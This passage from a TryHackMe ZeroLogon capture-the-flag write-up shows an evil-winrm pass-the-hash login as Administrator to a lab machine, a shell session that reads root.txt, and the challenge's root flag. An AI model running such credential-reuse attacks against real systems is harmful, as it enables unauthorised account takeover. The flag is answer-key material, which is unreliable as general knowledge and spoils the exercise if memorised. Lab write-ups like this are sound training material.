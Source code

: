 6. What is the root flag?

```
(impacketEnv) kali@kali:~/CTFs/tryhackme/ZeroLogon$ evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.162.183

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
hololive\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/20/2020   2:02 PM             24 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
THM{Zer0Log0nD4rkTh1rty}
```

`THM{Zer0Log0nD4rkTh1rty}`
